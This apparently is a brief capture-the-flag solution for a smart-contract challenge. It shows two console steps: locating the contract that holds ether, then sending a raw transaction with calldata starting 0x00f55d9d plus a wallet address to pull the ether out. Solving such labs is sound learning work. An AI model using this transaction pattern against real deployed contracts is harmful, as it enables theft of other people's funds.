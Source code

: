 # In the Console

1. Determinate what contract stores the ether using a block explorer
2. Get ether out: `await sendTransaction({from:player, to: CONTRACT_ADDRESS,data:`0x00f55d9d0000000000000000000000000WALLETADDRESS`})`
